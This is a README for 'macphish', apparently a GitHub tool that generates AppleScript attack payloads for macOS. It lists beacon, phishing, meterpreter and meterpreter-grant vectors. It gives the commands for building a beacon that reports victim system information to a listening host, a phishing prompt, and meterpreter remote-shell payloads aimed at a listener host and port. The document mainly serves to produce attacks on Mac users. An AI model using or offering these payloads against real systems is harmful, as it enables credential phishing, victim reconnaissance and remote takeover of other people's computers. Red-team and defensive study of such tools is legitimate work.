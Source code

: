 # macphish
Applescript payload generator
![macphish](macphish-alpha.png?raw=true "macphish")

## Attack vectors
There are 4 attack vectors available:
* beacon
* phishing
* meterpreter
* meterpreter-grant

For the 'phishing' method, macphish can generate the Applescript script directly, in case you need to run it from a shell. 

### Beacon
On execution, this payload will signal our listening host and provide basic system information about the victim. The simplest way of generating a beacon payload is:
```
$./macphish.py -lh <listening host> 
```
By default, it uses curl but other utilities (wget, nslookup) can be used by modifying the command template. 

### Phishing
```
$./macphish.py -lh <listening host> -lp <listening port> -a phishing 
```
### Meterpreter
The simplest way of generating a meterpreter payload is:
```
$./macphish.py -lh <listening host> -lp <listening port> -a meterpreter 
```
For meterpreter attacks, only python payloads are supported at the moment. 
